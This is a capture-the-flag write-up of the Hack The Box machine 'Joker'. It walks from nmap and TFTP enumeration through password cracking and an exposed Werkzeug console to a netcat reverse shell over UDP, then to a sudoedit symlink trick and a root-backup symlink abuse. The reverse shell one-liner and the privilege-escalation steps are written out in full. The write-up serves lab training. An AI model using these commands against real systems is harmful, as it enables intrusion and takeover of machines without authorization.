






---
search:
  exclude: true
---
# Joker Writeup

## Introduction :

Joker is a hard linux box released back in May 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sT** for tcp ports and **-sU** to for udp ports.
    
    
    [ 10.10.14.37/23 ] [ /dev/pts/16 ] [~]
    → sudo nmap -vvv -sTU -p- 10.10.10.21 --max-retries 0 -Pn --min-rate=500 | grep Discovered
    Discovered open port 22/tcp on 10.10.10.21
    Discovered open port 3128/tcp on 10.10.10.21
    

Once we know which ports are opened, we enumerate the ones we want with **-p** , using the flags **-sC** for default scripts, and **-sV** to enumerate versions.
    
    
    [ 10.10.14.37/23 ] [ /dev/pts/10 ] [~]
    → nmap -sCV 10.10.10.21 -Pn -p 22,3128
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-29 17:39 CEST
    Nmap scan report for 10.10.10.21
    Host is up (0.032s latency).
    Not shown: 998 filtered ports
    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 88:24:e3:57:10:9f:1b:17:3d:7a:f3:26:3d:b6:33:4e (RSA)
    |   256 76:b6:f6:08:00:bd:68:ce:97:cb:08:e7:77:69:3d:8a (ECDSA)
    |_  256 dc:91:e4:8d:d0:16:ce:cf:3d:91:82:09:23:a7:dc:86 (ED25519)
    3128/tcp open  http-proxy Squid http proxy 3.5.12
    |_http-server-header: squid/3.5.12
    |_http-title: ERROR: The requested URL could not be retrieved
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 21.78 seconds
    
    
    
    [ 10.10.14.37/23 ] [ /dev/pts/11 ] [~]
    → sudo nmap -sU 10.10.10.21 -p 69,5355
    [sudo] password for nothing:
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-29 17:53 CEST
    Nmap scan report for 10.10.10.21
    Host is up (0.028s latency).
    
    PORT     STATE         SERVICE
    69/udp   open|filtered tftp
    5355/udp open|filtered llmnr
    
    Nmap done: 1 IP address (1 host up) scanned in 1.62 second
    

## **Part 2 : Getting User Access**

The UDP scan picked up port 69 tftp so let's investigate it:
    
    
      [ 10.10.14.37/23 ] [ /dev/pts/11 ] [~/_HTB/Joker]
      → sudo pacman -S tftp-hpa
      resolving dependencies...
      looking for conflicting packages...
      
      Packages (1) tftp-hpa-5.2-9
      
      Total Download Size:   0,04 MiB
      Total Installed Size:  0,09 MiB
      
      :: Proceed with installation? [Y/n] y
      :: Retrieving packages...
       tftp-hpa-5.2-9-x86_64               37,8 KiB  1260 KiB/s 00:00 [###################################] 100%
      (1/1) checking keys in keyring                                  [###################################] 100%
      (1/1) checking package integrity                                [###################################] 100%
      (1/1) loading package files                                     [###################################] 100%
      (1/1) checking for file conflicts                               [###################################] 100%
      (1/1) checking available disk space                             [###################################] 100%
      :: Processing package changes...
      (1/1) installing tftp-hpa                                       [###################################] 100%
      :: Running post-transaction hooks...
      (1/2) Reloading system manager configuration...
      (2/2) Arming ConditionNeedsUpdate...
      
      [ 10.10.14.37/23 ] [ /dev/pts/11 ] [~/_HTB/Joker]
      → tftp 10.10.10.21
      tftp> get passwords
      Recieved 48 bytes in 5.9 seconds	
    

Once we have the passwords file we will use john to crack it using the rockyou.txt wordlist:
    
    
      john --wordlist=/usr/share/wordlists/rockyou.txt passwords
    

Once it's done we have the credentials we need : ihateseafood (kalamari) so now let's make use of port 3128 (squid proxy) using firefox

 

So that's one way of doing it, but we can also use foxyproxy to do that: 

Once that's done, visiting http://127.0.0.1 redirects us to a login prompt (where we put in the credentials john found earlier) and we are greeted by a shorty-url webpage. So we enumerate it using dirb

    
    
      [ 10.10.14.37/23 ] [ /dev/pts/14 ] [~]
      → dirb http://127.0.0.1 -p 10.10.10.21:3128 -P kalamari:ihateseafood -r
      
      -----------------
      DIRB v2.22
      By The Dark Raver
      -----------------
      
      START_TIME: Wed Jul 29 18:19:04 2020
      URL_BASE: http://127.0.0.1/
      WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
      PROXY: 10.10.10.21:3128
      PROXY AUTHORIZATION: kalamari:ihateseafood
      OPTION: Not Recursive
      
      -----------------
      
      GENERATED WORDS: 4612
      
      ---- Scanning URL: http://127.0.0.1/ ----
      + http://127.0.0.1/console (CODE:200|SIZE:1479)
    

now we visit http://127.0.0.1/console and we are greeted by a python interpreter into which we're going to inject our reverse shell. but before that we need to enumerate a bit:
    
    
      >>> import os
      >>> os.popen("whoami").read()
      'werkzeug\n'
      >>> os.popen("nc -h").read()
    ''
    >>> os.popen("nc -h 2>&1").read()
    'OpenBSD netcat (Debian patchlevel 1.105-7ubuntu1)\nThis is nc from the netcat-openbsd package. An alternative nc is available\nin the netcat-traditional package.\nusage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]\n\t  [-P proxy_username] [-p source_port] [-q seconds] [-s source]\n\t  [-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]\n\t  [-x proxy_address[:port]] [destination] [port]\n\tCommand Summary:\n\t\t-4\t\tUse IPv4\n\t\t-6\t\tUse IPv6\n\t\t-b\t\tAllow broadcast\n\t\t-C\t\tSend CRLF as line-ending\n\t\t-D\t\tEnable the debug socket option\n\t\t-d\t\tDetach from stdin\n\t\t-h\t\tThis help text\n\t\t-I length\tTCP receive buffer length\n\t\t-i secs\t\tDelay interval for lines sent, ports scanned\n\t\t-j\t\tUse jumbo frame\n\t\t-k\t\tKeep inbound sockets open for multiple connects\n\t\t-l\t\tListen mode, for inbound connects\n\t\t-n\t\tSuppress name/port resolutions\n\t\t-O length\tTCP send buffer length\n\t\t-P proxyuser\tUsername for proxy authentication\n\t\t-p port\t\tSpecify local port for remote connects\n        \t-q secs\t\tquit after EOF on stdin and delay of secs\n\t\t-r\t\tRandomize remote ports\n\t\t-S\t\tEnable the TCP MD5 signature option\n\t\t-s addr\t\tLocal source address\n\t\t-T toskeyword\tSet IP Type of Service\n\t\t-t\t\tAnswer TELNET negotiation\n\t\t-U\t\tUse UNIX domain socket\n\t\t-u\t\tUDP mode\n\t\t-V rtable\tSpecify alternate routing table\n\t\t-v\t\tVerbose\n\t\t-w secs\t\tTimeout for connects and final net reads\n\t\t-X proto\tProxy protocol: "4", "5" (SOCKS) or "connect"\n\t\t-x addr[:port]\tSpecify proxy address and port\n\t\t-Z\t\tDCCP mode\n\t\t-z\t\tZero-I/O mode [used for scanning]\n\tPort numbers can be individual or ranges: lo-hi [inclusive]\n'  
    >>>
    

so here we see that netcat is here, and the flags we have here are **-46bCDdhjklnrStUuvZz** it is important to note that we do not have the -e flag so it's here that many other people who made the writeup of this box falsely claimed they could just use pentestmonkey's python reverse shell one liner because it contains the -e flag which is not here for netcat. So to go around this we'll use another reverse shell one liner :
    
    
      rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.37 9002 >/tmp/f
    

Here it is important to add the & at the end because if this is not successful, the webservice will die on us and we would need to revert the box. This makes sure that the process runs in the background on another thread in order for us to keep using the box in case if it doesn't work. 
    
    
      rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.37 9002 >/tmp/f &
    

Now here we are dealing with a python interpreter so we need to wrap our payload within the os.popopen("").read() command:
    
    
    import os
    os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.37 9002 >/tmp/f &").read()
    

Sadly this doesn't work, and that is because there are iptables. We can see that here:
    
    
      >>> os.popen("find /etc | grep iptables").read()
      '/etc/iptables\n/etc/iptables/rules.v4\n/etc/iptables/rules.v6\n'
      >>> os.popen("base64 -w 0 /etc/iptables/rules.v4").read()
      'IyBHZW5lcmF0ZWQgYnkgaXB0YWJsZXMtc2F2ZSB2MS42LjAgb24gRnJpIE1heSAxOSAxODowMToxNiAyMDE3CipmaWx0ZXIKOklOUFVUIERST1AgWzQxNTczOjE4Mjk1OTZdCjpGT1JXQVJEIEFDQ0VQVCBbMDowXQo6T1VUUFVUIEFDQ0VQVCBbODc4OjIyMTkzMl0KLUEgSU5QVVQgLWkgZW5zMzMgLXAgdGNwIC1tIHRjcCAtLWRwb3J0IDIyIC1qIEFDQ0VQVAotQSBJTlBVVCAtaSBlbnMzMyAtcCB0Y3AgLW0gdGNwIC0tZHBvcnQgMzEyOCAtaiBBQ0NFUFQKLUEgSU5QVVQgLWkgZW5zMzMgLXAgdWRwIC1qIEFDQ0VQVAotQSBJTlBVVCAtaSBlbnMzMyAtcCBpY21wIC1qIEFDQ0VQVAotQSBJTlBVVCAtaSBsbyAtaiBBQ0NFUFQKLUEgT1VUUFVUIC1vIGVuczMzIC1wIHRjcCAtbSBzdGF0ZSAtLXN0YXRlIE5FVyAtaiBEUk9QCkNPTU1JVAojIENvbXBsZXRlZCBvbiBGcmkgTWF5IDE5IDE4OjAxOjE2IDIwMTcK'  
      >>>
    

then we decode it locally :
    
    
      echo 'B64STRING' | base64 -d > iptables.v4
    
    
    
      [ 10.10.14.37/23 ] [ /dev/pts/8 ] [~/_HTB/Joker]
      → echo 'IyBHZW5lcmF0ZWQgYnkgaXB0YWJsZXMtc2F2ZSB2MS42LjAgb24gRnJpIE1heSAxOSAxODowMToxNiAyMDE3CipmaWx0ZXIKOklOUFVUIERST1AgWzQxNTczOjE4Mjk1OTZdCjpGT1JXQVJEIEFDQ0VQVCBbMDowXQo6T1VUUFVUIEFDQ0VQVCBbODc4OjIyMTkzMl0KLUEgSU5QVVQgLWkgZW5zMzMgLXAgdGNwIC1tIHRjcCAtLWRwb3J0IDIyIC1qIEFDQ0VQVAotQSBJTlBVVCAtaSBlbnMzMyAtcCB0Y3AgLW0gdGNwIC0tZHBvcnQgMzEyOCAtaiBBQ0NFUFQKLUEgSU5QVVQgLWkgZW5zMzMgLXAgdWRwIC1qIEFDQ0VQVAotQSBJTlBVVCAtaSBlbnMzMyAtcCBpY21wIC1qIEFDQ0VQVAotQSBJTlBVVCAtaSBsbyAtaiBBQ0NFUFQKLUEgT1VUUFVUIC1vIGVuczMzIC1wIHRjcCAtbSBzdGF0ZSAtLXN0YXRlIE5FVyAtaiBEUk9QCkNPTU1JVAojIENvbXBsZXRlZCBvbiBGcmkgTWF5IDE5IDE4OjAxOjE2IDIwMTcK' | base64 -d > iptables.v4
      
      [ 10.10.14.37/23 ] [ /dev/pts/8 ] [~/_HTB/Joker]
      → nano iptables.v4
    
    
    
      # Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
      *filter
      :INPUT DROP [41573:1829596]
      :FORWARD ACCEPT [0:0]
      :OUTPUT ACCEPT [878:221932]
      -A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
      -A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
      -A INPUT -i ens33 -p udp -j ACCEPT
      -A INPUT -i ens33 -p icmp -j ACCEPT
      -A INPUT -i lo -j ACCEPT
      -A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
      COMMIT
      # Completed on Fri May 19 18:01:16 2017
    

And here we see the problem, because we can only use a few ports for tcp (22 and 3128) , and the box accepts icmp (ping requests) as well as udp. So the easiest way to do it from here, is to spawn a reverse shell on a udp port instead of tcp. 
    
    
    import os
    os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.13 9002 >/tmp/f &").read()
    

and of course, to recieve the reverse shell, we also need the -u flag on our end to make sure it is on our udp port:
    
    
      nc -u -lvnp 9002
    

` 

Now that we got our reverse shell, we are logged in as the user "werkzeug", we will first of all upgrade our reverse shell to a fully interactive shell:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Joker]
    → nc -u -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.21] 48079
    /bin/sh: 0: can't access tty; job control turned off
    $ which bash
    /bin/bash
    $ which bash sh curl wget python python3
    /bin/bash
    /bin/sh
    /usr/bin/curl
    /usr/bin/wget
    /usr/bin/python
    /usr/bin/python3
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    werkzeug@joker:~$ ^Z
    [1]  + 18172 suspended  nc -u -lvnp 9002
    
    [ 10.10.14.8/23 ] [ /dev/pts/1 ] [~/HTB/Joker]
    → stty raw -echo ; fg
    [1]  + 18172 continued  nc -u -lvnp 9002
                                            export TERM=screen-256color
    werkzeug@joker:~$ export SHELL=bash
    werkzeug@joker:~$ stty rows 50 columns 200
    werkzeug@joker:~$ reset
    
    

This reverse shell is very glitchy due to the use of the UDP protocol so make sure to press enter in between each previous step to make sure you get output.

Now we could run a privesc script to find the vulnerabilities for us, but it is a fairly simple one, we just type sudo -l

and here we see what this box is about, the user we are logged in as (werkzeug) may run the sudoedit command on joker as the user alekos on /var/www/*/*/layout.html

if we run dpkg -l sudo :

We see that sudo is version 1.8.16.0 and if we run a searchsploit command on this, we see that there is an exploit for it (namely 11651.sh and 37710.txt)

So the idea here is, that you can take advantage of this wildcard vulnerability in sudo using symlinks and therefore being able to edit files that you are not supposed to be able to edit. Namely the authorized_key file in root's .ssh directory to put our public key in:
    
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/Joker]
    → cat ~/.ssh/mahakaliVM.pub
    ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOJqQ6+ycZGjPXSNkZ3zvgaHhEyLGcFb7fPfEIZSQl8 nothing@mahakali
    
    
    [terminal 2]
    werkzeug@joker:~/testing/nihilist$ ln -s /home/alekos/.ssh/authorized_keys layout.html
    werkzeug@joker:~/testing/nihilist$ ls -lash
    total 8.0K
    4.0K drwxrwxr-x 2 werkzeug werkzeug 4.0K Jul  6 22:31 .
    4.0K drwxr-xr-x 3 werkzeug werkzeug 4.0K Jul  6 22:30 ..
       0 lrwxrwxrwx 1 werkzeug werkzeug   33 Jul  6 22:31 layout.html -> /home/alekos/.ssh/authorized_keys
    
    werkzeug@joker:~/testing/nihilist$ sudoedit -u alekos /var/www/testin/nihilistlayout.html
    
    Unable to create directory /var/www/.nano: Permission denied
    It is required for saving/loading search history or cursor positions.
    
    Press Enter to continue
    
    werkzeug@joker:~/testing/nihilist$cat layout.html
    ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOJqQ6+ycZGjPXSNkZ3zvgaHhEyLGcFb7fPfEIZSQl8 nothing@mahakali
    
    

Now that our public key is in alekos's authorized_keys file, let's ssh as alekos:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/Joker]
    → ssh alekos@10.10.10.21 -i ~/.ssh/mahakaliVM
    The authenticity of host '10.10.10.21 (10.10.10.21)' can't be established.
    ECDSA key fingerprint is SHA256:1yj4blzJwO5TYIZYFB3HMwXEqeflHc2iF1Idp3lZ94k.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.21' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    0 packages can be updated.
    0 updates are security updates.
    
    
    Last login: Sat May 20 16:38:08 2017 from 10.10.13.210
    alekos@joker:~$ id
    uid=1001(alekos) gid=1001(alekos) groups=1001(alekos),1000(werkzeug)
    alekos@joker:~$ ls -l
    total 20
    drwxrwx--- 2 root   alekos 12288 Jul  6 22:40 backup
    drwxr-x--- 5 alekos alekos  4096 May 18  2017 development
    -r--r----- 1 root   alekos    33 May 19  2017 user.txt
    alekos@joker:~$ cat user.txt
    a2XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there you go! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc to root on this box we're going to take a look at alekos's files:
    
    
    alekos@joker:~$ ls -lash backup/
    total 336K
     12K drwxrwx--- 2 root   alekos  12K Jul  6 22:45 .
    4.0K drwxr-xr-x 7 alekos alekos 4.0K May 19  2017 ..
     40K -rw-r----- 1 root   alekos  40K Dec 24  2017 dev-1514134201.tar.gz
     40K -rw-r----- 1 root   alekos  40K Dec 24  2017 dev-1514134501.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:20 dev-1625599201.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:25 dev-1625599501.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:30 dev-1625599801.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:35 dev-1625600101.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:40 dev-1625600401.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:45 dev-1625600701.tar.gz
    

here we see that a backup is being made every 5 minutes by the root user. So let's extract one of these backups to see what it does:
    
    
    alekos@joker:~/backup$ mkdir extract
    alekos@joker:~/backup$ cd extract
    alekos@joker:~/backup/extract$ cp ../dev-1625601001.tar.gz .
    alekos@joker:~/backup/extract$ gunzip -d dev-1625601001.tar.gz
    
    gzip: dev-1625601001.tar.gz: not in gzip format
    alekos@joker:~/backup/extract$ ls -l
    total 40
    -rw-r----- 1 alekos alekos 40960 Jul  6 22:50 dev-1625601001.tar.gz
    alekos@joker:~/backup/extract$ file dev-1625601001.tar.gz
    dev-1625601001.tar.gz: POSIX tar archive (GNU)
    alekos@joker:~/backup/extract$ tar -xvf dev-1625601001.tar.gz
    __init__.py
    application.py
    data/
    data/shorty.db
    models.py
    static/
    static/style.css
    templates/
    templates/layout.html
    templates/not_found.html
    templates/list.html
    templates/display.html
    templates/new.html
    utils.py
    views.py
    alekos@joker:~/backup/extract$ ls -lash ../../development/
    total 36K
    4.0K drwxr-x--- 5 alekos alekos 4.0K May 18  2017 .
    4.0K drwxr-xr-x 7 alekos alekos 4.0K Jul  6 22:50 ..
    4.0K -rw-r----- 1 alekos alekos 1.5K May 18  2017 application.py
    4.0K drwxrwx--- 2 alekos alekos 4.0K May 18  2017 data
       0 -rw-r----- 1 alekos alekos    0 May 18  2017 __init__.py
    4.0K -rw-r----- 1 alekos alekos  997 May 18  2017 models.py
    4.0K drwxr-x--- 2 alekos alekos 4.0K May 18  2017 static
    4.0K drwxr-x--- 2 alekos alekos 4.0K May 18  2017 templates
    4.0K -rw-r----- 1 alekos alekos 2.5K May 18  2017 utils.py
    4.0K -rw-r----- 1 alekos alekos 1.8K May 18  2017 views.py
    alekos@joker:~/backup/extract$
    

And here we see that basically there is a backup of the development folder that's being made every 5 minutes. So we basically make a symbolic link to /root/ so that the next backup that's being made is going to be that of the **/root/** directory where the root flag is.
    
    
    alekos@joker:~$ date
    Tue Jul  6 22:53:48 EEST 2021
    alekos@joker:~$ ls -l
    total 20
    drwxrwx--- 3 root   alekos 12288 Jul  6 22:50 backup
    drwxr-x--- 5 alekos alekos  4096 May 18  2017 development
    -r--r----- 1 root   alekos    33 May 19  2017 user.txt
    alekos@joker:~$ mv development/ dev.bak
    alekos@joker:~$ ln -s /root/ development
    alekos@joker:~$ ls -lash
    total 52K
    4.0K drwxr-xr-x 7 alekos alekos 4.0K Jul  6 22:54 .
    4.0K drwxr-xr-x 3 root   root   4.0K May 16  2017 ..
     12K drwxrwx--- 3 root   alekos  12K Jul  6 22:50 backup
       0 -rw------- 1 root   root      0 May 17  2017 .bash_history
    4.0K -rw-r--r-- 1 alekos alekos  220 May 16  2017 .bash_logout
    4.0K -rw-r--r-- 1 alekos alekos 3.7K May 16  2017 .bashrc
    4.0K drwx------ 2 alekos alekos 4.0K May 17  2017 .cache
    4.0K drwxr-x--- 5 alekos alekos 4.0K May 18  2017 dev.bak
       0 lrwxrwxrwx 1 alekos alekos    6 Jul  6 22:54 development -> /root/
    4.0K drwxr-xr-x 2 alekos alekos 4.0K May 17  2017 .nano
    4.0K -rw-r--r-- 1 alekos alekos  655 May 16  2017 .profile
    4.0K drwxr-xr-x 2 alekos alekos 4.0K May 20  2017 .ssh
    4.0K -r--r----- 1 root   alekos   33 May 19  2017 user.txt
    alekos@joker:~$ date
    Tue Jul  6 22:54:13 EEST 2021
    

We wait for the next backup to happen, and then we extract it:
    
    
    alekos@joker:~$ date
    Tue Jul  6 22:55:19 EEST 2021
    alekos@joker:~$ cd backup/
    alekos@joker:~/backup$ ls -lash
    total 392K
     12K drwxrwx--- 3 root   alekos  12K Jul  6 22:55 .
    4.0K drwxr-xr-x 7 alekos alekos 4.0K Jul  6 22:54 ..
     40K -rw-r----- 1 root   alekos  40K Dec 24  2017 dev-1514134201.tar.gz
     40K -rw-r----- 1 root   alekos  40K Dec 24  2017 dev-1514134501.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:20 dev-1625599201.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:25 dev-1625599501.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:30 dev-1625599801.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:35 dev-1625600101.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:40 dev-1625600401.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:45 dev-1625600701.tar.gz
     40K -rw-r----- 1 root   alekos  40K Jul  6 22:50 dev-1625601001.tar.gz
     12K -rw-r----- 1 root   alekos  10K Jul  6 22:55 dev-1625601301.tar.gz
    4.0K drwxrwxr-x 5 alekos alekos 4.0K Jul  6 22:51 extract
    alekos@joker:~/backup$ tar -xvf dev-1625601301.tar.gz
    backup.sh
    root.txt
    alekos@joker:~/backup$ cat root.txt
    d4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We got the root flag.

## **Conclusion**

Here we can see the progress graph :

